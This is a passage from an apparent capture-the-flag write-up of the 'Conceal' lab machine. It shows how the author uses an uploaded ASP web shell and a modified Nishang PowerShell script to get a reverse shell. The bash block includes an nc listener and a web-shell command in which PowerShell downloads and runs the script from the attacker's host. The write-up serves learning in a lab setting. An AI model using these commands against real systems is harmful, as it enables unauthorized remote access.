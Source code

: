 <br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/conceal_writeup/Conceal_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

With the web shell I can enumerate the system to leak information, but it is better to do it on the already engaged system, so I check the connectivity with the target machine by sending a trace with `ping` to my attacker machine with the **RCE**. I capture the communication with `tcpdump` and succeed in receiving the request, now that I can try to get a reverse, for some reason the **VPN** connection is down so I have to **re-up** it again with `ipsec`. With a function of **[Nishang's](https://github.com/samratashok/nishang){:target="_blank"}** **Invoke-PowerShellTcp.ps1** script I can get the **Reverse Shell**, so with `python` I'm going to configure a local server so that the script is available and can be downloaded on the victim machine. Before I made a small modification to the script, so that once it is downloaded, the function to send the **Reverse Shell** is executed. I have to upload the web shell again (since it was automatically deleted), open with nc the local port **443** waiting for the connection and execute the malicious command to access the machine and access the content of the first flag.

```bash
# http://10.10.10.116/upload/oldboy_shell.asp?cmd=hostname
# conceal

tcpdump -i tun0 icmp -n
# http://10.10.10.116/upload/oldboy_shell.asp?cmd=ping%2010.10.14.14

ipsec restart
ipsec up conceal

cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 ./PS.ps1
nvim PS.ps1
cat PS.ps1 | tail -n 4
# Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 443

python3 -m http.server 80
rlwrap -cAr nc -nlvp 443

# http://10.10.10.116/upload/oldboy_shell.asp?cmd=powershell%20IEX(New-Object%20Net.WebClient).downloadString(%27http://10.10.14.14/PS.ps1%27)
# :)
```

> **Victime Machine**:
